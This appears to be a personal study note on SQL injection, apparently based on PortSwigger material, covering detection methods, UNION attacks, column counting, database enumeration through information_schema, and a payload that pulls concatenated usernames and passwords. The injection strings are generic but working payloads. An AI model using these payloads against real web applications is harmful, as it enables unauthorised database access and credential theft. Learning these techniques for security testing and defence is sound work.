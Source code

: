 # SQL injection

## How to detect SQL injection vulnerabilities
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

## SQL injection in different parts of the query
- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)

## Warning: OR 1=1 
- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

## SQL injection UNION attacks
- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query

### Determining the number of columns required
- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

### Database-specific syntax
- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

### Finding columns with a useful data type
- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

## Examining the database 
| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

### Retrieving multiple values within a single column
- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet
